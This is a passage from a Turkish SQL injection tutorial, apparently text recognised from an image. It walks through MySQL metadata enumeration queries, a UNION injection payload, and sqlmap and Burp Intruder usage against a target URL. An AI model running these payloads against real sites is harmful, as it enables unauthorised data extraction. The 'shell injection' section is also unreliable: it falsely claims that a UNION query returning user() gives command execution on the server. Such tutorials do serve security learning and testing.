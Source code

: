Bu şekilde her sütun sayısını artan sırayla kontrol edebilirsin. Hangi sorgunun hata vereceği, sistemdeki toplam sütun sayısını belirtir. Sonrasında doğru sütunu tespit ederek veritabanı adını alabilirsin.

4️⃣ MySQL Metadata Enjeksiyonu (İçsel Veritabanı Bilgisi)
Eğer hedef veritabanı MySQL kullanıyorsa, daha fazla bilgi edinmek için veritabanı metadata'larını (şematik yapılar, tablolara dair bilgiler) sorgulayabilirsin.
Veritabanı Adını Öğrenmek için:
sql
```sql
SELECT schema_name FROM information_schema.schemata;
```
Veritabanındaki Tablo Adlarını Öğrenmek için:
sql
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'test_db';
```
Bu sorgu, 'test_db' veritabanındaki tüm tablo adlarını döndürecektir.
Veritabanındaki Tablolardaki Kolonları Öğrenmek için:
sql
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';
```

5️⃣ SQL Injection ile Sisteme Komut İstemcisi Ekleme (Shell Injection)
Birçok zaman, SQL injection ile elde edilen verilerle sadece veritabanı adı veya tablo yapısını almak değil, sistem komutlarına erişim sağlamak da mümkündür. Eğer hedef sistemde komut satırı erişimi varsa, SQLi ile shell komutları çalıştırılabilir.
Linux Komutları ile Erişim Sağlamak:
sql
```sql
' UNION SELECT 1,2,3,4, GROUP_CONCAT(user()) FROM information_schema.tables--
```
Bu şekilde komut satırına geçerek, uzaktaki sunucuya erişim sağlayabilir, komutlar çalıştırabilirsin.

6️⃣ Automatikleştirilmiş Yöntemler
Bu tür testleri manuel olarak gerçekleştirmek bazen çok zaman alıcı olabilir. Bu yüzden aşağıdaki araçları kullanmak faydalıdır:
SQLmap:
SQLmap, yukarıda bahsedilen tüm SQL enjeksiyon tekniklerini otomatikleştirir. Veritabanı adını öğrenmek için şunları kullanabilirsin:
bash
```bash
sqlmap -u "https://example.com/index.php?id=1" --dbs --technique=BEUST
```
-u: Hedef URL
```sql
--dbs: Tüm veritabanlarını listele
--technique: Kullanılacak enjeksiyon türünü belirtir (B = Blind, E = Error, U = Union, S = Stacked, T = Time-based)
```
Burp Suite Intruder:
Burp Suite, özellikle kör SQL enjeksiyon testleri için kullanışlıdır. Yanıt zamanlamaları veya sayfa içerikleri arasındaki farklar ile veritabanı adı gibi bilgileri sızdırmak mümkündür.
Burp Suite'de Intruder sekmesini kullanarak testleri otomatikleştirebilir, tokenlar ve payloadlar ile girişleri denemeler yapabilirsin.
